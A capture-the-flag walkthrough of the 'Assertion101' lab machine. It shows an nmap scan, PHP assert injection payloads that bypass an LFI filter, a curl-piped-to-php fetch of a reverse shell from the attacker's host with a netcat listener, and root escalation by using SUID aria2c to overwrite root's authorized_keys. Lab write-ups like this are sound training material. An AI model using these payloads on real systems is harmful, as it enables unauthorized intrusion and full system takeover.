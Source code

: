 ```yaml
---
layout: default
title : muzec - Assertion101 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/122222062-e5698b80-ce7f-11eb-94bd-d32514e8c964.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Wed Jun 16 03:12:49 2021 as: nmap -sC -sV -oA nmap 192.168.119.94
Nmap scan report for 192.168.119.94
Host is up (0.39s latency).
Not shown: 963 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Assertion
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 16 03:15:15 2021 -- 1 IP address (1 host up) scanned in 145.78 seconds
```

We having just two open port which is cool now let start enumeration on port HTTP.

### WEB APPLICATION

![image](https://user-images.githubusercontent.com/69868171/122222062-e5698b80-ce7f-11eb-94bd-d32514e8c964.png)

 We can see that the menu at the top of the page contains a page parameter that seems particularly interesting let try LFI to see if it vulnerable.
 
 ![image](https://user-images.githubusercontent.com/69868171/122222678-793b5780-ce80-11eb-91d1-f65a5a72cf3d.png)

But we got nothing just a message back `Not so easy brother!` let try some advance LFI attack on it.

### PHP ASSERTIONS

If you encounter a difficult LFI that appears to be filtering traversal strings such as ".." and responding with something along the lines of "Hacking attempt" or "Nice try!", an 'assert' injection payload may work.

Going from the machine name and the php file extensions, we can guess that the machine is about php assertions.
By using Google to search for ways to bypass php assertions, we find similar challenges and we get some suggestions to try.

```
' and die(show_source('/etc/passwd')) or '
' and die(system("whoami")) or '
```

We find the following payload that works .

![image](https://user-images.githubusercontent.com/69868171/122223468-2f06a600-ce81-11eb-9f63-7c61d9911bd4.png)

Time to get a reverse shell. we can get a shell from our machine copying the shell from `/usr/share/webshells/php/php-reverse-shell.php` and editing it with our local machine’s IP and port.

![image](https://user-images.githubusercontent.com/69868171/122224603-42664100-ce82-11eb-985a-45f6d3136f5d.png)


Make sure to edit the PORT and IP in the reverse shell file. Then let start a web server to serve the file.

`python -m SimpleHTTPServer`

![image](https://user-images.githubusercontent.com/69868171/122225017-ac7ee600-ce82-11eb-96d9-105b6a229ca1.png)

Start our netcat listener.

`nc -nvlp 1337`

![image](https://user-images.githubusercontent.com/69868171/122225090-bf91b600-ce82-11eb-9895-8cd130c2349a.png)

Now let run it.

`http://192.168.119.94/index.php?page=' and die(system("curl http://192.168.49.119:8000/shell.php | php")) or '`

Checking our ncat listener and we have shell.

![image](https://user-images.githubusercontent.com/69868171/122225934-80b03000-ce83-11eb-9b6a-396eaac02e02.png)

Spawning a TTY shell with `python -c 'import pty; pty.spawn ("/bin/bash")'`

### Privilege Escalation

`find  / -perm -u=s -type f 2>/dev/null` 

Checking for SUID binaries.

![image](https://user-images.githubusercontent.com/69868171/122226370-ea303e80-ce83-11eb-822c-845c625fb05a.png)

Our particular target is the `/usr/bin/aria2c` executable, which is a command line download utility. We can use it to overwrite some important files. For example, we can use it to overwrite the root’s authorized_keys file.

Let’s start a web server in our local machine’s .ssh folder to get our public key on the remote machine. If you don’t have an SSH key pair created, you can use the ssh-keygen command.

![image](https://user-images.githubusercontent.com/69868171/122226958-73477580-ce84-11eb-905b-3b091598831f.png)

Now let type ``/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.119:8000/authorized_keys" --allow-overwrite=true`` on the target.

![image](https://user-images.githubusercontent.com/69868171/122227491-eb15a000-ce84-11eb-8765-0945b6369401.png)

Now let SSH with root and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
